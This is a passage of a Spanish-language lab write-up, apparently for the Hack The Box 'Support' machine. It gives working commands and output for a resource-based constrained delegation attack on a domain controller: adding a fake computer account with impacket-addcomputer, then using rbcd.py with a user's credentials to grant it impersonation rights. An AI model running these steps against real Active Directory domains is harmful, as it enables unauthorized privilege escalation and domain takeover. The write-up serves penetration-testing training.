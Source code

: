 Vamos a explotar este privilegio

![](/assets/img/Support/image_15.png)

`Creamos` un `equipo fake`

```
# impacket-addcomputer -computer-name 'fakecomputer$' -computer-pass 'password' -dc-ip 10.129.230.181 support.htb/support:Ironside47pleasure40Watchful
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] Successfully added machine account fakecomputer$ with password password.
```

`Obtenemos` el `nombre` del `equipo` del que vamos a `abusar`

```
# netexec smb 10.129.230.181
SMB         10.129.230.181  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
```

`Agrego` el `descriptor` de `seguridad` relacionado del nuevo `FAKECOMPUTER` a la propiedad `msDS-AllowedToActOnBehalfOfOtherIdentity` del equipo objetivo usando el `script` [https://github.com/tothi/rbcd-attack/blob/master/rbcd.py](https://github.com/tothi/rbcd-attack/blob/master/rbcd.py)

```
# python3 rbcd.py -f FAKECOMPUTER -t dc -dc-ip 10.129.230.181 support.htb\\support:Ironside47pleasure40Watchful   
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] Starting Resource Based Constrained Delegation Attack against dc$
[*] Initializing LDAP connection to 10.129.230.181
[*] Using support.htb\support account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `FAKECOMPUTER` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `dc`
[*] Delegation rights modified succesfully!
[*] FAKECOMPUTER$ can now impersonate users on dc$ via S4U2Proxy
```

